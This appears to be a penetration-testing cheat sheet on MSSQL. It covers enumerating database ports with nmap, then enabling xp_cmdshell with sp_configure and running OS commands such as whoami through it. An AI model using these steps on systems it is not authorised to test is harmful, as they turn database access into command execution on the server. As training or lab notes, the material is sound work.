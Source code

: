 ## Enumeration
By default, MSSQL uses ports TCP/1433 and UDP/1434, and MySQL uses TCP/3306. However, when MSSQL operates in a "hidden" mode, it uses the TCP/2433 port. We can use Nmap's default scripts -sC option to enumerate database services on a target system:

### Banner Grabbing
```
$ nmap -Pn -sV -sC -p1433 10.10.10.125
```

## Execute Commands
- xp_cmdshell is a powerful feature and disabled by default. xp_cmdshell can be enabled and disabled by using the Policy-Based Management or by executing sp_configure
- The Windows process spawned by xp_cmdshell has the same security rights as the SQL Server service account
- xp_cmdshell operates synchronously. Control is not returned to the caller until the command-shell command is completed

### XP_CMDSHELL
enable_xp_cmdshell

```
1> xp_cmdshell 'whoami'
2> GO

xp_cmdshell whoami /priv

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

#### Enable XP_CMDSHELL
If xp_cmdshell is not enabled, we can enable it, if we have the appropriate privileges, using the following command:

```bash
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```
